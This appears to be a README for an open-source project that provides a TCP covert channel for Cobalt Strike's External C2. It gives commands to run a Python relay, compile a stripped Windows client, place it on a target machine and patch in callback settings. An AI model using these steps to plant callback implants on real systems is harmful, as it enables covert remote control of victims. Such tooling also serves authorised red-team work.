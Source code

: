 # COBALT STRIKE TCP CHANNEL

This project provides a TCP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any TCP-based protocol.

To use the channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

Requirements: Python3 (developed on 3.9.2) and wolfssl

> pip3 install wolfssl

To start the server, run the following command:

> python3 [Name].py [Teamserver IP] [Python Server IP] [Port] [Pipename] [OPTIONAL:-tp TeamserverPort -a Arch -r Restart]

- [Name] is the name of your Python server.
- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server listens on to communicate with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any opsec appropriate pipe name approved for ops.  
- [TeamserverPort] is the port to connect to on the Cobalt Strike teamserver. It defaults to 2222 and is an optional argument.
- [Arch] is the architecture to request from the teamserver for the beacon. It defaults to x86 and is an optional argument.
- [Restart] is a Y/N value to either restart the server after disconnect or exit. Default is N and is an optional argument.

If you have the MinGW compiler installed, you may compile the client C code with the following command:

>i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32 -static -lwsock32 -lwolfssl

or 64-bit with:

>x86_64-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32 -static -lwsock32 -lwolfssl

You can compile the debug version of the client with print statements by adding `-DDEBUG` to the end of the compile command

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe

Use the binary patcher to patch in arguments.

>python3 bipa.py [input binary] [output binary] -a [Python Server IP] -b [Port] -c [Pipename] -d [Sleep] -e [Timeout]

- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.
- [Sleep] is the sleep time (in seconds) to wait between check ins with the server. It hits this sleep when the beacon indicates it has nothing left to send back to the server and is just checking in.
- [Timeout] is the send/recv socket timeout option (in seconds) set by setsockopt(). May remove in future.

## CONSTRAINTS AND NOTES

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- The client closes the TCP connection, sleeps, then reopens the TCP connection. If there is a small sleep timer, this will result in a lot of short TCP sessions with the source port increasing. If the link/path dies during this sleep the client will timeout (after sleeping and attempting to reconnect) and the server will get stuck on accept() waiting for the client to connect back in. You will need to restart the server to use it again.

## TODOS/IMPROVEMENTS

- Handle multiple clients on one server.
